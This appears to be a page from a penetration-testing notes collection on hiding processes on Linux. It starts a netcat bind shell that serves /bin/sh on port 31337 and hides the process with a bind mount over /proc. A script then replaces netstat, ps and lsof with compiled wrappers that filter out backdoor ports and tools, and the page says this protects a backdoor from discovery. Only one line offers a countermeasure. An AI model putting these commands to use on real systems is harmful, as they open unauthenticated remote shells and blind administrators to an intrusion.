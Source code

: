 # Hiding Processes

## Process Hiding Techniques

{% embed url="https://flaviu.io/linux-how-to-a-hide-processes" %}

### Listening sockets, hiding from ps and lsof <a href="#hideprocesses" id="hideprocesses"></a>

```
mkdir /tmp/empty
/bin/nc.traditional -l -p 31337 -e /bin/sh &
ps aux | grep $!
sudo mount --bind /tmp/empty /proc/$!
ps aux | grep $!
```

#### Countermeasure:

`netstat -tulpe` and checking `cat /proc/$$/mountinfo` for suspicious mounts over `/proc`

### Script:

Run the script to protect the backdoor from discovery through **ps**, **netstat** or **lsof**

```
#!/bin/bash

#netstat
#------------------------
touch /tmp/.netstat.c

cat <<EOF >> /tmp/.netstat.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/netstat \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.netstat.c -o /usr/local/bin/netstat

rm /tmp/.netstat.c


#ps
#------------------------
touch /tmp/.ps.c

cat <<EOF >> /tmp/.ps.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/ps \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.ps.c -o /usr/local/bin/ps

rm /tmp/.ps.c


#lsof
#------------------------
touch /tmp/.lsof.c

cat <<EOF >> /tmp/.lsof.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/usr/bin/lsof \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.lsof.c -o /usr/local/bin/lsof

rm /tmp/.lsof.c
```

